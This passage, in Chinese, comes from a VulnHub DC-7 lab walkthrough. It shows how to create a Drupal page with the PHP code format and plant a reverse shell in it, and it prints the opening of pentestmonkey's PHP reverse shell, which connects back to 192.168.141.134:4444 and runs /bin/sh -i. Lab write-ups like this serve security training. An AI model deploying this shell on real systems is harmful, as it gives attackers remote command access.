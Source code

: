 回到主页，在左边的 Tools 栏中点击 Add content -> Basic page,Text format 选择 PHP code

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC7/14.png)

写入一个 php 反向 shell 即可

找到一个可以直接利用的 php 源码 http://pentestmonkey.net/tools/web-shells/php-reverse-shell
```php
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.141.134';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();

	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
```